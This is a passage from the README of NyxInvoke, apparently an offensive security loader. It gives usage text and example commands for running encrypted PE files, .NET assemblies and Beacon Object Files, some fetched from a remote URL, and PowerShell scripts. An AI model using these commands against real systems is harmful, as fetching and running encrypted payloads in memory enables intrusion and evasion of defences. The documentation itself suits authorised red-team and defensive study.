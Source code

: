 3. PE Mode:
```text
Execute Portable Executable (PE) files

Usage: NyxInvoke.exe pe [OPTIONS]

Options:
  -a, --args <ARGS>...      Arguments to pass to the PE
  -b, --base <URL_OR_PATH>  Base URL or path for resources
  -k, --key <KEY_FILE>      Path to the encryption key file
  -i, --iv <IV_FILE>        Path to the initialization vector (IV) file
  -f, --pe <PE_FILE>        Path or URL to the encrypted PE file to execute
  -u, --unencrypted         Whether the PE is unencrypted (default is encrypted)
  -h, --help                Print help (see more with '--help')

Example: NyxInvoke.exe pe --pe payload.enc --key key.bin --iv iv.bin --args "arg1 arg2"
```

4. PowerShell Mode:
```text
Execute PowerShell commands or scripts

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
  -c, --command <PS_COMMAND>  PowerShell command to execute
  -s, --script <PS_SCRIPT>    Path or URL to the PowerShell script to execute
  -h, --help                  Print help (see more with '--help')

Examples:
NyxInvoke.exe ps --command "Get-Process"
NyxInvoke.exe ps --script script.ps1
```

## Examples

### Executable Mode

1. CLR Mode (Remote Execution):
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Script Execution):
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. BOF Mode (Local Execution):
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```
